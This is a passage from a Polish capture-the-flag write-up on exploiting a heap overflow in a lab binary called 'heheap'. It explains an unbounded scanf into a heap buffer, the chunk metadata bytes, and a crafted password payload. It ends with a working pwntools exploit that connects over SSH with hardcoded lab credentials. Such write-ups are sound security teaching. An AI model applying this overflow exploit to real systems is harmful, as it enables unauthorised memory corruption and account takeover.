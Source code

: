 ### Payload
Payload musi być umieszczony w haśle użytkownika evil. Username może być dowolny, bo hasło i tak zostanie wpisane z offsetem 256 znaków.
```c
    username = malloc(513);
    printf("Enter username: ");
    __isoc99_scanf(&%s,username);
    printf("Password: ");
    __isoc99_scanf(&%s,(long)username + 256);//offset na hasło
    *(undefined *)((long)username + 512) = 0;//ostatni magic byte
```
Na stercie kolejne chunki danych są oddzielone od siebie metadanymi. Potem zaczynają się dane, u nas login, a 256 bajtów dalej hasło. 256 bajtów od początku hasła (512 od loginu) znajduje się nasz magic byte. Zatem payload ma postać:
```text
eviluserpassoffset + /x00*offset1 + /x17/x02 + /x00*offset2 + user2 + user2passoffset + pass2 + magicbyteoffset + magicbyte
```
Gdzie:
* eviluserpassoffset = 256 * cokolwiek - żeby wypełnić hasło usera evil
* user2passoffset = 256 - len(user2) = 251 - żeby wypełnić resztę loginu usera2
* magicbyteoffset = 256 - len(pass2) = 251 - żeby wypełnić resztę hasła usera2
* magickbyte - cokolwiek - żeby zdobyć flagę
* offset1 = 8 * /x00
* offset2 = 6 * /x00

```/x17/x02``` to metadane (pozyskane z gdb i analizy dynamicznej) o następnym chunku. Musimy zachować te dane, żeby program dalej działał.

Finalny payload

```text
'A'*256 + /x00*8 + /x17/x02 + /x00*6 + user2 + /x00*251 + pass2 + /x00*251 + 'A'
```
### Exploit
```python
from pwn import *

pty = process.PTY

ssh_connection = ssh('manager', '172.27.27.10', password='maximus', port=2137)

p = ssh_connection.run('/usr/local/bin/heheap')

#p = process('./heheap', stdin=pty, stdout=pty) # do testów lokalnych

p.sendlineafter( "Your choice: ", '1')
p.sendlineafter("Enter username: ", 'user1')
p.sendlineafter('Password: ', b'pass1')

p.sendlineafter('Your choice:', '1')
p.sendlineafter('Enter username: ', 'user2')
p.sendlineafter('Password: ', b'pass2')

p.sendlineafter('Your choice: ', '3')
p.sendlineafter('Username: ', 'user1')
p.sendlineafter('Password: ', b'pass1')

payload = b'A'*256 + b'\x00'*8 + b'\x17\x02' + b'\x00'*6 + b'user2' + b'\x00'*251 + b'pass2' + b'\x00'*251 + b'A'

p.sendlineafter('Your choice: ', '1')
p.sendlineafter('Enter username: ', 'user1')
p.sendlineafter('Password: ', payload)

```